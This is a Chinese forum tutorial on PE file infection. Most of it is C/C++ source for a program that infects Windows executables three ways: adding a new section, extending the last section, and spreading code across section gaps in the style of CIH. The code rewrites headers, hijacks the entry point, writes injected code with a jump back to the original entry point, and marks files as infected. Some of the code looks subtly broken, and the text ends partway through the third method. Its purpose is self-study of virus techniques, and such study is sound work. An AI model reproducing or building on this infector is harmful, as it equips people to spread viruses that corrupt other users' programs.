# 浅析 PE 文件感染

> 原文：[`www.pediy.com/kssd/pediy12/127202.html`](https://www.pediy.com/kssd/pediy12/127202.html)

`PE` 文件感染，早已不是什么新鲜的话题。论坛中也有很多反复摧残 `PE` 文件的文章。这段时间在看病毒方面的知识，所以重新温习了下 `PE` 文件的结构，介绍 `PE` 结构的帖子很多，我就不详细介绍了，再介绍也不一定由牛人们介绍的详细。跟我一样的小白，参见：

[`bbs.pediy.com/showthread.php?t=21932`](http://bbs.pediy.com/showthread.php?t=21932)
[`bbs.pediy.com/showthread.php?t=121488`](http://bbs.pediy.com/showthread.php?t=121488)
[`bbs.pediy.com/showthread.php?t=122191`](http://bbs.pediy.com/showthread.php?t=122191)

无数的先例告诉我们，动手才是王道！为了巩固下 `PE` 文件的知识，写了个利用三种方式感染 `PE` 文件的小程序，顺便练练手！

本文主要用以下三种方式感染 `PE` 文件，达到被感染目标运行时，先运行我们感染的代码，先看效果图：



下面分别简述下每种感染方式与不足的地方。

## 1. 添加新节表感染

该种方式很常见，首先根据 `PE` 文件结构查看 `SectionHeader` 表后，有无足够的空间放下一个新节表：

代码:

```
//添加新节感染
  DWORD dwRealSize = lpImageDosHeader->e_lfanew + 4 + sizeof(IMAGE_FILE_HEADER) + stImageFileHeader.SizeOfOptionalHeader + stImageFileHeader.NumberOfSections*sizeof(IMAGE_SECTION_HEADER);
  if( stImageOptionalHeader.SizeOfHeaders - dwRealSize > sizeof(IMAGE_SECTION_HEADER) )
  {
    INFECT_INFO stInfectInfo = {0};
    stInfectInfo.dwId = 1;
    strncpy( stInfectInfo.lpInfectName, "添加新节表感染方式", strlen("添加新节表感染方式") );
    PIMAGE_SECTION_HEADER lpFirstSectionHeader = IMAGE_FIRST_SECTION(lpImageNtHeaders);
    PIMAGE_SECTION_HEADER lpLastSectionHeader = lpFirstSectionHeader + (stImageFileHeader.NumberOfSections-1);//*sizeof(IMAGE_SECTION_HEADER);

    stInfectInfo.Infect_Manner_Info.stAddSection.dwVirtualOffset = ((lpLastSectionHeader->VirtualAddress + lpLastSectionHeader->Misc.VirtualSize -1)/dwVirtualAlign+1)*dwVirtualAlign;
    stInfectInfo.Infect_Manner_Info.stAddSection.dwVirtualAddSize = (DWORD)GetEndAddress - (DWORD)MainCode + dwExtendSize;
    stInfectInfo.Infect_Manner_Info.stAddSection.dwFileOffset = lpLastSectionHeader->PointerToRawData + lpLastSectionHeader->SizeOfRawData;
    stInfectInfo.Infect_Manner_Info.stAddSection.dwFileAddSize = (((DWORD)GetEndAddress - (DWORD)MainCode + dwExtendSize - 1)/dwFileAlign +1 )*dwFileAlign;
    stInfectInfo.dwNewEP = stInfectInfo.Infect_Manner_Info.stAddSection.dwVirtualOffset;
    stInfectInfo.lpBase = lpBuffer;

    stInfectInfos[dwInfectCnt++] = stInfectInfo;
  }
```

如果该处没有一个 `IMAGE_SECTION_HEADER` 结构的大小，也就是 `40` 字节的空隙，那么就没办法利用添加新节感染了，注意如果存在 `IMAGE_DIR_ENTRY_BOUND_IMPORT` 数据目录，要将该数据目录的地址清空，一般在 `2k` 下会有这种情况。代码如下：

代码:

```
  if( stInfectInfos[index].dwId == 1 )
  {
    PIMAGE_DOS_HEADER lpImageDosHeader = (PIMAGE_DOS_HEADER)stInfectInfos[index].lpBase;
    PIMAGE_NT_HEADERS lpImageNtHeaders = (PIMAGE_NT_HEADERS)( (DWORD)lpImageDosHeader + lpImageDosHeader->e_lfanew );
    PIMAGE_SECTION_HEADER lpFirstImageSection = IMAGE_FIRST_SECTION(lpImageNtHeaders);

    DWORD dwSectionCnt = lpImageNtHeaders->FileHeader.NumberOfSections;
    DWORD dwFileAlign = lpImageNtHeaders->OptionalHeader.FileAlignment;
    DWORD dwSectionAlign = lpImageNtHeaders->OptionalHeader.SectionAlignment;
    DWORD dwImageBase = lpImageNtHeaders->OptionalHeader.ImageBase;

    PIMAGE_SECTION_HEADER lpEndImageSection = (PIMAGE_SECTION_HEADER)( (DWORD)lpFirstImageSection + dwSectionCnt*sizeof(IMAGE_SECTION_HEADER) );
    memset( lpEndImageSection, 0, sizeof(IMAGE_SECTION_HEADER) );
      strncpy( (char*)(lpEndImageSection->Name), ".angel", strlen(".angel") );
    lpEndImageSection->Characteristics = 0x600000E0;
    lpEndImageSection->Misc.VirtualSize = stInfectInfos[index].Infect_Manner_Info.stAddSection.dwVirtualAddSize;
    lpEndImageSection->VirtualAddress = stInfectInfos[index].Infect_Manner_Info.stAddSection.dwVirtualOffset;
    lpEndImageSection->PointerToRawData = stInfectInfos[index].Infect_Manner_Info.stAddSection.dwFileOffset;
    lpEndImageSection->SizeOfRawData = stInfectInfos[index].Infect_Manner_Info.stAddSection.dwFileAddSize;

    lpImageNtHeaders->FileHeader.NumberOfSections++;
    DWORD dwOldEP = lpImageNtHeaders->OptionalHeader.AddressOfEntryPoint;
    lpImageNtHeaders->OptionalHeader.AddressOfEntryPoint = lpEndImageSection->VirtualAddress;
    lpImageNtHeaders->OptionalHeader.SizeOfCode += lpEndImageSection->SizeOfRawData;
        //lpImageNtHeaders->OptionalHeader.SizeOfHeaders += sizeof(IMAGE_SECTION_HEADER);
    lpImageNtHeaders->OptionalHeader.SizeOfImage += ((lpEndImageSection->Misc.VirtualSize-1)/dwSectionAlign+1)*dwSectionAlign;

    //添加感染标识
    strncpy( (char*)(lpImageDosHeader->e_res2), "angelkiss", strlen("angelkiss") );
    FlushViewOfFile( stInfectInfos[index].lpBase, 0 );
    UnmapViewOfFile( stInfectInfos[index].lpBase );

    HANDLE hFile = CreateFile( g_strPath, GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ|FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL );
    if( hFile == NULL )
    {
      MessageBox( "添加节表感染 PE 失败" );
      goto _OUT;
    }
    DWORD dwFileSize = GetFileSize( hFile, NULL );
    DWORD dwRet = SetFilePointer( hFile, stInfectInfos[index].Infect_Manner_Info.stAddSection.dwFileAddSize, NULL, FILE_END );
    if( dwRet == -1 )
    {
      MessageBox( "扩大文件失败" );
      CloseHandle( hFile );
      goto _OUT;
    }
    if( !SetEndOfFile( hFile ) )
    {
      MessageBox( "扩大文件,设置文件末尾失败" );
      CloseHandle( hFile );
      goto _OUT;
    }

    DWORD dw = (DWORD)GetEndAddress - (DWORD)MainCode;

    char lpJmpCode[5] = {0xe9,0x90,0x90,0x90,0x90};
    //搜索 MainCode 中 JMP 的位置
    DWORD dwPosition = 0; 
    BYTE *lpTemp = (BYTE*)MainCode;

    for( int id = 0; id < 0x1000; id++ )
    {
      if( (*lpTemp==0x90) && (*(lpTemp+1)==0x90) && (*(lpTemp+2)==0x90) && (*(lpTemp+3)==0x90) && (*(lpTemp+4)==0x90) )
      {
        dwPosition = (DWORD)lpTemp - (DWORD)MainCode;
        break;
      }
      lpTemp++;
    }
    if( dwPosition == 0 )
    {
      MessageBox( "寻找跳转地址出错" );
      CloseHandle( hFile );
      goto _OUT;

    }
    DWORD dwJmpDis = dwOldEP  - (stInfectInfos[index].Infect_Manner_Info.stAddSection.dwVirtualOffset + dwPosition + 5 );
    memcpy( lpJmpCode+1, &dwJmpDis, 4 );
    DWORD dwOldProtect = 0;
    bool bRes = VirtualProtect( (LPVOID)(lpTemp), 5, PAGE_EXECUTE_READWRITE, &dwOldProtect );
    memcpy( lpTemp, lpJmpCode, 5 );
    SetFilePointer( hFile, stInfectInfos[index].Infect_Manner_Info.stAddSection.dwFileOffset, 0, FILE_BEGIN );
    DWORD dwCnt = 0; 
    WriteFile( hFile, (char*)MainCode, dw, &dwCnt, NULL );

    DWORD dwToken = 0xfffffff9;
        WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
    WriteFile( hFile, lpContent, strlen(lpContent), &dwCnt, NULL );
    SetFilePointer( hFile, 10, NULL, FILE_CURRENT );

    dwToken = 0xfffffffa;
    WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
    WriteFile( hFile, lpTitle, strlen(lpTitle), &dwCnt, NULL );
    SetFilePointer( hFile, 10, NULL, FILE_CURRENT );


        dwToken = 0xfffffffb;
    WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
    WriteFile( hFile, lpLoadLibraryA, strlen(lpLoadLibraryA), &dwCnt, NULL );
    SetFilePointer( hFile, 10, NULL, FILE_CURRENT );


    dwToken = 0xfffffffc;
    WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
    WriteFile( hFile, lpGetProcess, strlen(lpGetProcess), &dwCnt, NULL );
    SetFilePointer( hFile, 10, NULL, FILE_CURRENT );


    dwToken = 0xfffffffd;
    WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
    WriteFile( hFile, lpUser32, strlen(lpUser32), &dwCnt, NULL );
    SetFilePointer( hFile, 10, NULL, FILE_CURRENT );


    dwToken = 0xfffffffe;
    WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
    WriteFile( hFile, lpMessageBoxA, strlen(lpMessageBoxA), &dwCnt, NULL );
    SetFilePointer( hFile, 10, NULL, FILE_CURRENT );


    dwToken = 0xffffffff;
    WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
    WriteFile( hFile, lpExitProcess, strlen(lpExitProcess), &dwCnt, NULL );
    SetFilePointer( hFile, 10, NULL, FILE_CURRENT );

       
    CloseHandle( hFile );
    MessageBox( "添加节方式感染成功!" );
    
  }
```

效果如下：

感染前：




感染后：




---------------------------



2、在 `PE` 文件的末尾节，添加代码。该种方法要注意最后一个节属性的修改。其他的基本跟添加新节方式一样。代码如下：

代码:

```c
  //末尾节扩展感染
  PIMAGE_SECTION_HEADER lpLastSectionHeader = lpFirstSectionHeader + (dwSectionCnt-1);
  INFECT_INFO stInfectInfo = {0};
  stInfectInfo.dwId = 3;
  strncpy( stInfectInfo.lpInfectName, "文件末尾节添加方式", strlen("文件末尾节添加方式") );
     
  stInfectInfo.Infect_Manner_Info.stEndSectionExtension.dwVirtualAddSize = (DWORD)GetEndAddress - (DWORD)MainCode + dwExtendSize;
  stInfectInfo.Infect_Manner_Info.stEndSectionExtension.dwVirtualOffset = lpLastSectionHeader->VirtualAddress + lpLastSectionHeader->Misc.VirtualSize;
  stInfectInfo.Infect_Manner_Info.stEndSectionExtension.dwFileOffset = lpLastSectionHeader->PointerToRawData + lpLastSectionHeader->Misc.VirtualSize;
  stInfectInfo.Infect_Manner_Info.stEndSectionExtension.dwFileAddSize = (lpLastSectionHeader->Misc.VirtualSize+ stInfectInfo.Infect_Manner_Info.stEndSectionExtension.dwVirtualAddSize) > (lpLastSectionHeader->SizeOfRawData)?(((lpLastSectionHeader->Misc.VirtualSize + (DWORD)GetEndAddress - (DWORD)MainCode + dwExtendSize -lpLastSectionHeader->SizeOfRawData -1)/dwFileAlign+1)*dwFileAlign):0;
  stInfectInfo.dwNewEP = stInfectInfo.Infect_Manner_Info.stEndSectionExtension.dwVirtualOffset;
  stInfectInfo.lpBase = lpBuffer;
        
  stInfectInfos[dwInfectCnt++] = stInfectInfo;

```

感染的代码：

代码:

```c
  if( stInfectInfos[index].dwId == 3 )
  {
    PIMAGE_DOS_HEADER lpImageDosHeader = (PIMAGE_DOS_HEADER)(stInfectInfos[index].lpBase);
    PIMAGE_NT_HEADERS lpImageNtHeaders = (PIMAGE_NT_HEADERS)( (DWORD)lpImageDosHeader + lpImageDosHeader->e_lfanew );
      PIMAGE_SECTION_HEADER lpImageSectionHeader = (PIMAGE_SECTION_HEADER)IMAGE_FIRST_SECTION(lpImageNtHeaders);
    DWORD dwSectionCnt = lpImageNtHeaders->FileHeader.NumberOfSections;
    DWORD dwSectionAlign = lpImageNtHeaders->OptionalHeader.SectionAlignment;
    DWORD dwFileAlign = lpImageNtHeaders->OptionalHeader.FileAlignment;

    PIMAGE_SECTION_HEADER lpLastImageSectionHeader = lpImageSectionHeader + dwSectionCnt - 1;

    lpLastImageSectionHeader->Characteristics = 0xE00000E0;
    lpLastImageSectionHeader->Misc.VirtualSize += stInfectInfos[index].Infect_Manner_Info.stEndSectionExtension.dwVirtualAddSize;
    lpLastImageSectionHeader->SizeOfRawData += stInfectInfos[index].Infect_Manner_Info.stEndSectionExtension.dwFileAddSize;
    lpImageNtHeaders->OptionalHeader.SizeOfCode += stInfectInfos[index].Infect_Manner_Info.stEndSectionExtension.dwFileAddSize;
    DWORD dwOldEP = lpImageNtHeaders->OptionalHeader.AddressOfEntryPoint;
    lpImageNtHeaders->OptionalHeader.AddressOfEntryPoint = stInfectInfos[index].dwNewEP;
    lpImageNtHeaders->OptionalHeader.SizeOfImage += dwSectionAlign*(((lpLastImageSectionHeader->Misc.VirtualSize-1)/dwSectionAlign+1) - ((lpLastImageSectionHeader->Misc.VirtualSize-stInfectInfos[index].Infect_Manner_Info.stEndSectionExtension.dwVirtualAddSize-1)/dwSectionAlign+1));

    strncpy( (char*)(lpImageDosHeader->e_res2), "angelkiss", strlen("angelkiss") );
    FlushViewOfFile( stInfectInfos[index].lpBase, 0 );
    UnmapViewOfFile( stInfectInfos[index].lpBase );

    HANDLE hFile = CreateFile( g_strPath, GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ|FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL );
    if( hFile == NULL )
    {
      MessageBox( "添加节表感染 PE 失败" );
      goto _OUT;
    }
    DWORD dwFileSize = GetFileSize( hFile, NULL );
    DWORD dwRet = SetFilePointer( hFile, stInfectInfos[index].Infect_Manner_Info.stEndSectionExtension.dwFileAddSize, NULL, FILE_END );
    if( dwRet == -1 )
    {
      MessageBox( "扩大文件失败" );
      CloseHandle( hFile );
      goto _OUT;
    }
    if( !SetEndOfFile( hFile ) )
    {
      MessageBox( "扩大文件,设置文件末尾失败" );
      CloseHandle( hFile );
      goto _OUT;
    }

    DWORD dw = (DWORD)GetEndAddress - (DWORD)MainCode;

    char lpJmpCode[5] = {0xe9,0x90,0x90,0x90,0x90};
    //搜索 MainCode 中 JMP 的位置
    DWORD dwPosition = 0; 
    BYTE *lpTemp = (BYTE*)MainCode;

    for( int id = 0; id < 0x1000; id++ )
    {
      if( (*lpTemp==0x90) && (*(lpTemp+1)==0x90) && (*(lpTemp+2)==0x90) && (*(lpTemp+3)==0x90) && (*(lpTemp+4)==0x90) )
      {
        dwPosition = (DWORD)lpTemp - (DWORD)MainCode;
        break;
      }
      lpTemp++;
    }
    if( dwPosition == 0 )
    {
      MessageBox( "寻找跳转地址出错" );
      CloseHandle( hFile );
      goto _OUT;

    }
    DWORD dwJmpDis = dwOldEP  - (stInfectInfos[index].Infect_Manner_Info.stEndSectionExtension.dwVirtualOffset + dwPosition + 5 );
    memcpy( lpJmpCode+1, &dwJmpDis, 4 );
    DWORD dwOldProtect = 0;
    bool bRes = VirtualProtect( (LPVOID)(lpTemp), 5, PAGE_EXECUTE_READWRITE, &dwOldProtect );
    memcpy( lpTemp, lpJmpCode, 5 );
    SetFilePointer( hFile, stInfectInfos[index].Infect_Manner_Info.stEndSectionExtension.dwFileOffset, 0, FILE_BEGIN );
    DWORD dwCnt = 0; 
    WriteFile( hFile, (char*)MainCode, dw, &dwCnt, NULL );

    DWORD dwToken = 0xfffffff9;
        WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
    WriteFile( hFile, lpContent, strlen(lpContent), &dwCnt, NULL );
    SetFilePointer( hFile, 10, NULL, FILE_CURRENT );

    dwToken = 0xfffffffa;
    WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
    WriteFile( hFile, lpTitle, strlen(lpTitle), &dwCnt, NULL );
    SetFilePointer( hFile, 10, NULL, FILE_CURRENT );


        dwToken = 0xfffffffb;
    WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
    WriteFile( hFile, lpLoadLibraryA, strlen(lpLoadLibraryA), &dwCnt, NULL );
    SetFilePointer( hFile, 10, NULL, FILE_CURRENT );


    dwToken = 0xfffffffc;
    WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
    WriteFile( hFile, lpGetProcess, strlen(lpGetProcess), &dwCnt, NULL );
    SetFilePointer( hFile, 10, NULL, FILE_CURRENT );


    dwToken = 0xfffffffd;
    WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
    WriteFile( hFile, lpUser32, strlen(lpUser32), &dwCnt, NULL );
    SetFilePointer( hFile, 10, NULL, FILE_CURRENT );


    dwToken = 0xfffffffe;
    WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
    WriteFile( hFile, lpMessageBoxA, strlen(lpMessageBoxA), &dwCnt, NULL );
    SetFilePointer( hFile, 10, NULL, FILE_CURRENT );


    dwToken = 0xffffffff;
    WriteFile( hFile, &dwToken, 4, &dwCnt, NULL );
    WriteFile( hFile, lpExitProcess, strlen(lpExitProcess), &dwCnt, NULL );
    SetFilePointer( hFile, 10, NULL, FILE_CURRENT );

     
    CloseHandle( hFile );
    MessageBox( "文件末尾节添加方式感染成功!" );
     
  }

```

感染前的：同上

感染后：





----------------------



3、利用 `PE` 文件的节缝隙，动态感染。曾经比较流行的 `CIH` 就是利用的这种技术，但它也就是搜索节表的空隙，找个足够容纳自己的藏身。我这里是将感染代码，分割成几块，分别插入缝隙中，然后再利用 `JMP` 将每部分链接起来。猥琐一点！本来想自己构建一个反汇编引擎，根据缝隙大小动态划分代码，可惜没时间弄，等以后有时间了一定补上。在这里只是简单将感染代码分割成 3 块，然后根据缝隙大小插入，不是特别灵活！废话不多说，上代码：

获取 `PE` 文件中节缝隙大小：

代码:


```
//缝隙感染：收集节表缝隙信息
DWORD dwSectionCnt = stImageFileHeader.NumberOfSections;
PSECTIONSPACE lpSectionSpace = new SECTIONSPACE[dwSectionCnt];
memset( lpSectionSpace, 0, dwSectionCnt*sizeof(SECTIONSPACE) );
PIMAGE_SECTION_HEADER lpFirstSectionHeader = IMAGE_FIRST_SECTION(lpImageNtHeaders);
DWORD dwTotalSpace = 0;
for( int index = 0; index < dwSectionCnt; index++ )
{
    PIMAGE_SECTION_HEADER lpTmpSectionHeader = lpFirstSectionHeader + index;
    lpSectionSpace[index].dwFileSpaceOffset = lpTmpSectionHeader->PointerToRawData + lpTmpSectionHeader->Misc.VirtualSize;
    lpSectionSpace[index].dwFileSpaceSize = lpTmpSectionHeader->SizeOfRawData > lpTmpSectionHeader->Misc.VirtualSize?lpTmpSectionHeader->SizeOfRawData-lpTmpSectionHeader->Misc.VirtualSize:0;
    lpSectionSpace[index].dwVirtualOffset = lpTmpSectionHeader->VirtualAddress;
    lpSectionSpace[index].dwVirtualSize = lpTmpSectionHeader->Misc.VirtualSize;
        dwTotalSpace += lpSectionSpace[index].dwFileSpaceSize;
}
if( dwTotalSpace > ((DWORD)GetEndAddress-(DWORD)MainCode+dwExtendSize+(dwSectionCnt-1)*5) )
{
    INFECT_INFO stInfectInfo = {0};
    stInfectInfo.dwId = 2;
    strncpy( stInfectInfo.lpInfectName, "节表缝隙感染方式", strlen("节表缝隙感染方式") );
    stInfectInfo.Infect_Manner_Info.lpstSectionSpace = lpSectionSpace;
    stInfectInfo.dwNewEP = lpFirstSectionHeader->VirtualAddress + lpFirstSectionHeader->Misc.VirtualSize;
    stInfectInfo.lpBase = lpBuffer;
    
    stInfectInfos[dwInfectCnt++] = stInfectInfo;
}
else
{
    delete lpSectionSpace;
}
```

感染代码：

代码:


```cpp
if( stInfectInfos[index].dwId == 2 )
{
    PIMAGE_DOS_HEADER lpImageDosHeader = (PIMAGE_DOS_HEADER)(stInfectInfos[index].lpBase);
    PIMAGE_NT_HEADERS lpImageNtHeaders = (PIMAGE_NT_HEADERS)( (DWORD)lpImageDosHeader + lpImageDosHeader->e_lfanew );
      PIMAGE_SECTION_HEADER lpImageSectionHeader = (PIMAGE_SECTION_HEADER)IMAGE_FIRST_SECTION(lpImageNtHeaders);
    DWORD dwSectionCnt = lpImageNtHeaders->FileHeader.NumberOfSections;
    DWORD dwSectionAlign = lpImageNtHeaders->OptionalHeader.SectionAlignment;
    DWORD dwFileAlign = lpImageNtHeaders->OptionalHeader.FileAlignment;

    DWORD dwOldEP = lpImageNtHeaders->OptionalHeader.AddressOfEntryPoint;
    strncpy( (char*)(lpImageDosHeader->e_res2), "angelkiss", strlen("angelkiss") );
    lpImageNtHeaders->OptionalHeader.AddressOfEntryPoint = stInfectInfos[index].dwNewEP;

    //获取插入代码的大小

    //获取附加内容的大小
    DWORD dwExtendSize = 4 + strlen(lpContent) + 10;
    dwExtendSize += ( 4 + strlen(lpTitle) + 10 );
    dwExtendSize += ( 4 + strlen(lpLoadLibraryA) + 10 );
    dwExtendSize += ( 4 + strlen(lpGetProcess) + 10 );
    dwExtendSize += ( 4 + strlen(lpUser32) + 10 );
    dwExtendSize += ( 4 + strlen(lpMessageBoxA) + 10 );
    dwExtendSize += ( 4 + strlen(lpExitProcess ) +10 );
    DWORD dwCodeSize = (DWORD)GetEndAddress - (DWORD)MainCode + dwExtendSize;
    DWORD dwTmpCodeSize = dwCodeSize;
    DWORD dwTmpCodeOffset = (DWORD)MainCode;
    //向每个节缝隙插入代码
    for( int i = 0; i < dwSectionCnt; i++ )
    {
      PIMAGE_SECTION_HEADER lpTmpImageSectionHeader = lpImageSectionHeader + i;
      lpTmpImageSectionHeader->Characteristics |= 0x200000E0;
      if( stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[i].dwFileSpaceSize >= dwTmpCodeSize )
      {//缝隙空间已经满足
        PIMAGE_SECTION_HEADER lpCurSectionHeader = lpImageSectionHeader + i;
        lpCurSectionHeader->Misc.VirtualSize += dwTmpCodeSize;
        stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[i].dwRealCodeSize = dwTmpCodeSize;
        stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[i].dwRealCodeOffset = dwTmpCodeOffset;
        break;
      }
      else
      {//缝隙空间不满足要求，通过计算获取放入该缝隙的代码
        DWORD dwFileSpaceSize = stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[i].dwFileSpaceSize;
        bool bFound = false;
        BYTE *lpTmp = NULL;
        //从 dwTmpCodeOffset 偏移 dwFileSpaceSize 处，向上搜索到最近的一个分块
        for( int k = dwTmpCodeOffset+dwFileSpaceSize; k >= dwTmpCodeOffset; k-- )
        {
          lpTmp = (BYTE*)k; 
          if( (*lpTmp == 0x80) && (*(lpTmp+1))==0x80) && (*(lpTmp+2)==0x80) && (*(lpTmp+3)==0x85) && (*(lpTmp+4)==0x85) && (*(lpTmp+5)==0x85) )
          {//查找到分块特征
            bFound = true;
            break;
          }
        }
        if( !bFound )
          continue;
        //再次验证该节缝隙是否满足要求
        if( ((DWORD)lpTmp - (DWORD)MainCode + 5 ) <= dwFileSpaceSize )
        {
          stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[i].dwRealCodeOffset = dwTmpCodeOffset;
          stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[i].dwRealCodeSize = (DWORD)lpTmp - (DWORD)dwTmpCodeOffset + 5;
          dwTmpCodeOffset += 6;
          dwTmpCodeSize -= (stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[i].dwRealCodeSize + 6 );
        }

      }
    }
        FlushViewOfFile( stInfectInfos[index].lpBase, 0 );
    UnmapViewOfFile( stInfectInfos[index].lpBase );
    //至此信息已经收集完毕，现在修正 MainCode 的代码，并写入指定位置
    //1.修正 MainCode 中的标识代码为 jmp
    for( int j = 0; j < dwSectionCnt-1; j++ )
    {
      SECTIONSPACE lpSectionSpace = stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[j+1];
      if( lpSectionSpace.dwRealCodeOffset == 0 )
        break;
      DWORD dwNextOffset = lpSectionSpace.dwVirtualOffset + lpSectionSpace.dwVirtualSize;
      DWORD dwAddr = stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[j].dwRealCodeOffset + stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[j].dwRealCodeSize;
      VirtualProtect( (LPVOID)dwAddr, 6, PAGE_EXECUTE_READWRITE, NULL );
      *(BYTE*)dwAddr = 0xe9;
            *((DWORD*)((BYTE*)dwAddr+1)) = dwNextOffset - dwAddr - 5;
       
    }

    DWORD dw = (DWORD)GetEndAddress - (DWORD)MainCode;

    char lpJmpCode[5] = {0xe9,0x90,0x90,0x90,0x90};
    //搜索 MainCode 中 JMP 的位置
    DWORD dwPosition = 0; 
    BYTE *lpTemp = (BYTE*)MainCode;

    for( int id = 0; id < 0x1000; id++ )
    {
      if( (*lpTemp==0x90) && (*(lpTemp+1)==0x90) && (*(lpTemp+2)==0x90) && (*(lpTemp+3)==0x90) && (*(lpTemp+4)==0x90) )
      {
        dwPosition = (DWORD)lpTemp - (DWORD)MainCode;
        break;
      }
      lpTemp++;
    }
    if( dwPosition == 0 )
    {
      MessageBox( "寻找跳转地址出错" );
      goto _OUT;

    }
    DWORD dwJmpDis = dwOldEP  - (stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[j].dwVirtualOffset + stInfectInfos[index].Infect_Manner_Info.lpstSectionSpace[j].dwVirtualSize + dwPosition + 5 );
    memcpy( lpJmpCode+1, &dwJmpDis, 4 );
    DWORD dwOldProtect = 0;
    bool bRes = VirtualProtect( (LPVOID)(lpTemp), 5, PAGE_EXECUTE_READWRITE, &dwOldProtect );
    memcpy( lpTemp, lpJmpCode, 5 );
    //将代码写入文件

